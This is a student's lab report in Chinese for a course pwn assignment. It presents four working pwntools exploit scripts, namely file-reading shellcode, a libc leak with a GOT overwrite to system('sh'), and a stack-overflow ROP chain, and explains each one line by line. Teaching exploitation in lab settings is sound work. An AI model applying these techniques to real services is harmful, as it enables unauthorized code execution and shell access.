

NAD lab07 PWN
20251124 241840273 杨良灼
Score Screenshot

Flags
exp1, 2, 3, 4 flags 分别如下：
flag{forbidden}
flag{forbidden}
flag{forbidden}
flag{forbidden}
screenshot 分别如下：
4 pictures forbidden
Detailed Thoughs & Exploit Scripts
以下每一分栏目首先给出 .py 脚本的代码，实际执行时需将 p = remote("localhost", <PORT>) 中的 localhost 改为服务器 IP 210.28.132.84，完整脚本之后则是对脚本分部分的分析。
exp1
from pwn import *
context.arch = 'amd64'
# p = process("./chall1")
p = remote("localhost", 9001) # 假设题目部署在独立端口
shellcode = asm(
shellcraft.open('/flag') + # __TODO__
shellcraft.read('rax','rsp',128) + # __TODO__
shellcraft.write(1,'rsp','rax') # __TODO__
)
p.recvuntil(b"bytes):\n")
p.send(shellcode)
p.recvline()
flag = p.recvall(timeout=1)
print(b"Flag: " + flag.strip())
Line 1 导入 pwn 库以使用相关工具和函数
Line 2 指明 pwntools/asm 模块目标架构是 AMD64（x86-64），显然不同的架构会影响一些抽象的约定。
Line 3 是被注释掉的调试代码，意为在本地启动名为 chall1 的可执行文件并与之交互.
Line 4 使用 pwntools 建立到远程靶机（此处展示位本地 IP 的 9001 端口）的 TCP 连接，返回一个 tube/socket 封装对象 p，以便之后使用。
Line 5 开始构造一个 shellcode（机器码字节串），asm() 函数将传入的汇编/shellcraft 字符按指定抽象约定编译为二进制机器码。
Line 6 使用 pwntools 的 shellcraft 生成打开 /flag 的汇编片段，按照指定抽象约定，内核会将返回的文件描述符放在 rax 寄存器（x86-64 的 syscall 返回寄存器）中。
Line 7 使用 pwntools 的 shellcraft 生成 read(fd, buf, count) 的汇编，其中 fd 指定为寄存器 rax，缓冲区 buf 使用当前栈顶 rsp 寄存器，并且读入 128 个字节，read syscall 将会返回读到的字节数并放置在 rax 寄存器中.
Line 8 使用 pwntools 的 shellcraft 生成 write(fd, buf, count) 的汇编，缓冲区 buf 指定为刚刚存储内容的 rsp 寄存器，count 使用存在寄存器 rax 中的之前返回的读到的字节数，fd 指定为 1 表示标准输出。
Line 9 结束 shellcode 的构建，Line 6-8 中使用了加号拼接三条命令，并在这里声明结束生成总的一系列机器码。
Line 10 p.recvuntil(b"bytes:\n") 理解为题目程序打印的提示，此时等待远端程序发送一个以 b"bytes:\n" 结尾的提示字符串。recvuntil 的意思是阻塞直到读取到改字节序列或超时。
Line 11 将生成的 shellcode 发送到远端进程，此处没有自动在末尾加换行，因未使用 sendline() .
Line 12 从远端读取并丢弃一行，以推进协议或清理掉一路的 prompt/回显信息。
Line 13 接受远端剩下的所有数据直到远端关闭连接或超时（timeout=1【秒】），为了等到远端把 flag 弄到 stdout 并断开或静默。返回值是接收到的字节，赋值给 flag .
Line 14 将 flag 清除首尾空白（strip()）后拼接指定前缀（即按指定格式）打印。
以上 shellcode 的执行流是 open('/flag') → rax=fd → read('rax', 'rsp', 128) → rax=bytes_read → write(1, 'rsp', 'rax') 从而将 /flag 内的内容输出到 stdout.
exp2
from pwn import *
context.arch = 'amd64'
# p = process("./chall2")
p = remote("localhost", 9002) # 假设题目部署在独立端口
shellcode = asm(
shellcraft.openat(-100,'/flag',0) + # __TODO__
shellcraft.read('rax','rsp',128) + # __TODO__
shellcraft.write(1,'rsp','rax') # __TODO__
)
p.recvuntil(b"bytes):\n")
p.send(shellcode)
p.recvline()
flag = p.recvall(timeout=1)
print(b"Flag: " + flag.strip())
相比于 exp1，此处仅改动了 相关端口和 Line 6，下面解释 Line 6
Line 6 的格式是 openat(AT_FECWD, "/flag", O_RDONLY) ，其中 AT_FDCWD 的值在 Linux 上等于 -100. 这条指令就会等价于 open("/flag", O_RDONLY)，O_RDONLY 在 Linux 中为 0，表示打开方式为按只读模式打开（显然 RDONLY 就是 ReaD ONLY 的意思），与之有类似作用的是按只写模式打开的 O_WRONLY（在 Linux 下为 1）和按可读可写模式打开的 O_RDWR（在 Linux 2）. 因 shellcraft.openat 的函数要求 flags 参数（此处的 O_RDONLY 位置），故而我们需要写这一个 0.
exp3
from pwn import *
# --- 环境配置 ---
# 在本地调试时:
# p = process("./chall3")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") # 使用你本地的libc
# 远程利用时:
p = remote("localhost", 9003)
libc = ELF("./libc.so.6") # 使用题目提供的libc
e = ELF("./chall3")
# --- 步骤 1: 泄露 puts 函数在内存中的真实地址 ---
# 计算 notes 数组到 puts@got 的偏移
offset_to_puts_got = (e.got['puts'] - e.symbols['notes']) // 8 # __TODO__
log.info(f"Offset from notes array to puts@got: {offset_to_puts_got}")
# 使用 "Read a note" 功能读取 puts@got 的内容
p.sendlineafter(b">> ", b"1")
p.sendlineafter(b"Index: ", str(offset_to_puts_got).encode())
# 解析输出，获取地址
p.recvuntil(b" = ")
leaked_puts_addr = int(p.recvline().strip())
log.success(f"Leaked puts() address: {hex(leaked_puts_addr)}")
# --- 步骤 2: 计算 system 和 "/bin/sh" 的地址 ---
# 计算 libc 在内存中的基地址
libc_base = leaked_puts_addr - libc.sym['puts'] # __TODO__
log.info(f"Calculated libc base address: {hex(libc_base)}")
# 计算 system 函数的真实地址
system_addr = libc_base + libc.sym['system'] # __TODO__
log.success(f"Calculated system() address: {hex(system_addr)}")
# 注意：因为要执行 system("sh")，但 secret_func() 只提供了 "sh"，
# 我们可以劫持 puts@got 到 system，然后触发 puts("sh")。
# --- 步骤 3: 劫持 puts@got 为 system 的地址 ---
p.sendlineafter(b">> ", b"2")
p.sendlineafter(b"Index: ", str(offset_to_puts_got).encode())
p.sendlineafter(b"Value: ", str(system_addr).encode())
log.info("Overwrote puts@got with system address.")
# --- 步骤 4: 触发 payload ---
# 调用 secret_func()，它会执行 puts("sh")
# 由于 GOT 被劫持，实际执行的是 system("sh")
p.sendlineafter(b">> ", b"4")
p.interactive()
下面逐个环节一一讲解
from pwn import *
Part 1 将 pwn 库导入。
# --- 环境配置 ---
# 在本地调试时:
# p = process("./chall3")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") # 使用你本地的libc
# 远程利用时:
p = remote("localhost", 9003)
libc = ELF("./libc.so.6") # 使用题目提供的libc
e = ELF("./chall3")
Part 2 建立 TCP 连接得到一个 tube 对象 p 用于交互。将题目提供的 libc 文件加载为 ELF 对象，便于之后读取符号地址/偏移。注意不同 libc 版本中函数 offset 不同，错误的 libc 会导致计算出的地址不对。另外加载目标二进制 chall3 为 ELF 对象 e，以便的读取其符号表、GOT/PLT、节区地址等。
# --- 步骤 1: 泄露 puts 函数在内存中的真实地址 ---
# 计算 notes 数组到 puts@got 的偏移
offset_to_puts_got = (e.got['puts'] - e.symbols['notes']) // 8 # __TODO__
log.info(f"Offset from notes array to puts@got: {offset_to_puts_got}")
# 使用 "Read a note" 功能读取 puts@got 的内容
p.sendlineafter(b">> ", b"1")
p.sendlineafter(b"Index: ", str(offset_to_puts_got).encode())
# 解析输出，获取地址
p.recvuntil(b" = ")
leaked_puts_addr = int(p.recvline().strip())
log.success(f"Leaked puts() address: {hex(leaked_puts_addr)}")
Part 3 首先使用 e.got['puts'] 来获取 ELF 中 puts 在 GOT（全局偏移表中的位置，且为文件里的地址而非进程运行时的绝对 libc 地址），然后减去二进制中名为 notes 的符号地址（使用 e.symbols['notes'] 获取），二者相减除以 8 得到索引。注意此处假定了 notes 数组的单个元素占据 8 字节（64-bit 指针），且 puts@got 的内容会放置在 notes 数组中。
接下来 p.sendlineafter(b">> ", b"1") 是等待远端输出包含 ">> " 的提示后发送 1\n .
类似地 p.sendlineafter(b"Index: ", str(offset_to_puts_got).encode()) 等待 Index: 后将计算好的索引字符发送给程序，程序将用此索引读取 nodes[index] 并打印，因 index 指向了 puts@got 所在槽位，故而程序会打印 GOT 中的值，造成信息泄露。
接下来 p.recvuntil(b" = ") 这个函数介绍过了，阻塞直到等到输出中的 = . leaked_puts_addr = int(p.recvline.strip()) 从随后的一整行读取并转为整数（int 类型）。
# --- 步骤 2: 计算 system 和 "/bin/sh" 的地址 ---
# 计算 libc 在内存中的基地址
libc_base = leaked_puts_addr - libc.sym['puts'] # __TODO__
log.info(f"Calculated libc base address: {hex(libc_base)}")
# 计算 system 函数的真实地址
system_addr = libc_base + libc.sym['system'] # __TODO__
log.success(f"Calculated system() address: {hex(system_addr)}")
# 注意：因为要执行 system("sh")，但 secret_func() 只提供了 "sh"，
# 我们可以劫持 puts@got 到 system，然后触发 puts("sh")。
Part 4 libc.sys['puts'] 是在加载的 libc 文件内 puts 符号的文件内偏移（在 libc 中的相对地址），leaked_puts_addr 是我们之前求出的进程中 puts 的实际位置（即运行时位置），位置减偏差得到基址 libc_base. 于此同时，libc.sym['system'] 类似，是 libc 文件内 system 的偏移，基址加偏移得到 system 的运行时位置.
# --- 步骤 3: 劫持 puts@got 为 system 的地址 ---
p.sendlineafter(b">> ", b"2")
p.sendlineafter(b"Index: ", str(offset_to_puts_got).encode())
p.sendlineafter(b"Value: ", str(system_addr).encode())
log.info("Overwrote puts@got with system address.")
Part 5 在目标程序中会对某个字符串 “sh” 做 puts("sh") ，故而将 puts@got 覆盖为 system 的地址，那么该调用 puts 的时候，实际上会执行 system("sh") 也就是说我们获得了 Shell，这种技巧被称作 GOT 劫持（GOT overwrite）.
# --- 步骤 4: 触发 payload ---
# 调用 secret_func()，它会执行 puts("sh")
# 由于 GOT 被劫持，实际执行的是 system("sh")
p.sendlineafter(b">> ", b"4")
p.interactive()
Part 6 发送信息在菜单中选择项 4，假意执行 puts 实际执行 system("sh") 打开 shell，接下来使用 p.interactive() 切换到交互模式，联机本地终端和远端进程，达成类似反弹 shell 的效果。
获取权限后我们通过 ls 查看目录下文件，看到 flag 文件后直接执行 cat /flag 输出其中内容。
exp4
from pwn import *
# p = process("./chall4")
context.arch='amd64'
p = remote("localhost", 9004)
e = ELF("./chall4")
# 使用 pwntools.ROP 模块
rop = ROP(e)
# 栈对齐，https://github.com/Gallopsled/pwntools/issues/1870
rop.call(rop.ret)
# 目标: call gadget_func('s', 'h', 0)
# pwntools 会自动寻找 pop rdi/rsi/rdx 等gadgets来设置参数
# https://docs.pwntools.com/en/stable/rop/rop.html#pwnlib.rop.rop.ROP.call
rop.call(e.sym['gadget_func'],(ord('s'),ord('h'),0)) #__TODO__
log.info("Constructed ROP chain:\n" + rop.dump())
# 32字节缓冲区 + ?
payload = b'A' * 40 + rop.chain() #__TODO__
# pause()
p.sendlineafter(b"payload: ", payload)
p.interactive()
from pwn import *
# p = process("./chall4")
context.arch='amd64'
p = remote("localhost", 9004)
e = ELF("./chall4")
Part 1 将 pwn 库导入，指明架构为 amd64，远程连接，读入 chall4 的符号表、GOT 等。
# 使用 pwntools.ROP 模块
rop = ROP(e)
# 栈对齐，https://github.com/Gallopsled/pwntools/issues/1870
rop.call(rop.ret)
# 目标: call gadget_func('s', 'h', 0)
# pwntools 会自动寻找 pop rdi/rsi/rdx 等gadgets来设置参数
# https://docs.pwntools.com/en/stable/rop/rop.html#pwnlib.rop.rop.ROP.call
rop.call(e.sym['gadget_func'],(ord('s'),ord('h'),0)) #__TODO__
log.info("Constructed ROP chain:\n" + rop.dump())
Part 2 rop = ROP(e) 调用 pwntools 的 ROP 工具，用于自动分析 ELF，自动搜寻 gadget，自动构造 ROP chain. rop.call(rop.ret) 栈对齐，这是因为 glibc 在执行函数（包括 system、printf） 时要求栈十六字节对齐（stack 16-byte aligned），否则可能崩溃。此处仅加入一个 ret gadget 使得 rsp 寄存器加 8，从而十六字节对齐。
接下来我们要利用栈溢出。rop.call(e.sym['gadget_func'],(ord('s'),ord('h'),0)) 将 's'、'h'、'\0' 塞入寄存器中，其串出的指令 system("sh") 可以创建一个子进程，从而获取 shell 权限。此处字符 's' 与'h' 通过 ord() 强行转化为 char 类型。
# 32字节缓冲区 + ?
payload = b'A' * 40 + rop.chain() #__TODO__
# pause()
p.sendlineafter(b"payload: ", payload)
p.interactive()
Part 3 我们就要让这个栈溢出，设置 payload，从栈帧来看，它不仅应占掉缓冲区的 32 个字节，还要占掉 rbp 的 8 个字节，接下来就要越界到 rip 的 8 个字节了，这个时候 ret 就是 pop RIP ，逐步将我们之前设置的 's'、'h'、'\0' 弹出来。
接下来 sendlineafter 开始执行函数，并通过栈溢出实际执行了 system("sh") ，于是接下来使用 p.interactive() 切换到交互模式。接下来同 exp3 获取 flag.
获取权限后我们通过 ls 查看目录下文件，看到 flag 文件后直接执行 cat /flag 输出其中内容。